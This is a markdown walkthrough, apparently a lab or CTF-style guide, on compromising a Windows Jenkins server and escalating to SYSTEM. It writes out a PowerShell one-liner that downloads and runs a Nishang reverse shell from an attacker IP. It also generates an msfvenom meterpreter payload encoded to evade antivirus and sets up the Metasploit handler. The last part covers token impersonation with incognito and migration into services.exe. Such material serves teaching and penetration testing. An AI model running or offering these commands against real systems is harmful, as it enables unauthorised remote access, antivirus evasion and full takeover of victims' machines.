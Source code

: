 We'll learn how to exploit a common misconfiguration on a widely used automation server(Jenkins - This tool is used to create continuous integration/continuous 
development pipelines that allow developers to automatically deploy their code once they made change to it). After which, we'll use an interesting privilege escalation 
method to get full system access. 

Since this is a Windows application, we'll be using [Nishang](https://github.com/samratashok/nishang) to gain initial access. The repository contains a useful set of 
scripts for initial access, enumeration and privilege escalation. In this case, we'll be using 
the [reverse shell scripts](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)


Find a feature of the tool(Jenkins) that allows you to execute commands on the underlying system. When you find this feature, you can use this command to get the 
reverse shell on your machine and then run it: 
```
powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port
```
E.g. in our case it is:
```
powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.117.113:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.117.113 -Port 4444
```
![image](https://github.com/vivekprm/hackers-manual/assets/2403660/394a4a8f-7da9-4be6-bc02-5b35539d92d0)

You first need to download the [Powershell script](https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1), and make it available 
for the server to download. You can do this by creating a http server with python: 
```sh
python3 -m http.server
```

# Switching Shells
To make the privilege escalation easier, let's switch to a meterpreter shell using the following process.

Use msfvenom to create the a windows meterpreter reverse shell using the following payload
```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.10.117.113 LPORT=5555 -f exe -o shell.exe
```

This payload generates an encoded x86-64 reverse tcp meterpreter payload. Payloads are usually encoded to ensure that they are transmitted correctly, and also to evade anti-virus products. An anti-virus product may not recognise the payload and won't flag it as malicious.

After creating this payload, download it to the machine using the same method in the previous step:
```
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.10.117.113:8000/shell.exe','shell.exe')"
```

Before running this program, ensure the handler is set up in metasploit:
```
use exploit/multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST your-ip set LPORT listening-port run
```

This step uses the metasploit handler to receive the incoming connection from you reverse shell. Once this is running, enter this command to start the reverse shell
```
Start-Process "shell.exe"
```

This should spawn a meterpreter shell for you!

# Privilege Escalation
Now that we have initial access, let's use token impersonation to gain system access.

Windows uses tokens to ensure that accounts have the right privileges to carry out particular actions. Account tokens are assigned to an account when users log in or are authenticated. This is usually done by **LSASS.exe**(think of this as an authentication process).

This access token consists of:
- user SIDs(security identifier)
- group SIDs
- privileges

amongst other things. More detailed information can be found [here](https://docs.microsoft.com/en-us/windows/win32/secauthz/access-tokens).

There are two types of access tokens:
- **primary access tokens**: those associated with a user account that are generated on log on
- **impersonation tokens**: these allow a particular process(or thread in a process) to gain access to resources using the token of another (user/client) process

For an impersonation token, there are different levels:
- **SecurityAnonymous**: current user/client cannot impersonate another user/client
- **SecurityIdentification**: current user/client can get the identity and privileges of a client, but cannot impersonate the client
- **SecurityImpersonation**: current user/client can impersonate the client's security context on the local system
- **SecurityDelegation**: current user/client can impersonate the client's security context on a remote system

where the security context is a data structure that contains users' relevant security information.

The privileges of an account(which are either given to the account when created or inherited from a group) allow a user to carry out particular actions. Here are 
the most commonly abused privileges:
- SeImpersonatePrivilege
- SeAssignPrimaryPrivilege
- SeTcbPrivilege
- SeBackupPrivilege
- SeRestorePrivilege
- SeCreateTokenPrivilege
- SeLoadDriverPrivilege
- SeTakeOwnershipPrivilege
- SeDebugPrivilege

There's more reading [here]([url](https://www.exploit-db.com/papers/42556)).

View all the privileges on command prompt with:
```
whoami /priv
```

You can see that two privileges(SeDebugPrivilege, SeImpersonatePrivilege) are enabled. Let's use the incognito module that will allow us to exploit this vulnerability. Enter: ```load incognito``` to load the incognito module in metasploit. Please note, you may need to use the use incognito command if the previous command doesn't work. Also ensure that your metasploit is up to date.

To check which tokens are available, enter the ```list_tokens -g```. We can see that the ```BUILTIN\Administrators``` token is available. Use the ```impersonate_token "BUILTIN\Administrators"``` command to impersonate the Administrators token. 

Even though you have a higher privileged token you may not actually have the permissions of a privileged user (this is due to the way Windows handles permissions - it uses the Primary Token of the process and not the impersonated token to determine what the process can or cannot do). Ensure that you migrate to a process with correct permissions (above questions answer). The safest process to pick is the ```services.exe``` process. First use the ps command to view processes and find the PID of the services.exe process. Migrate to this process using the command migrate PID-OF-PROCESS
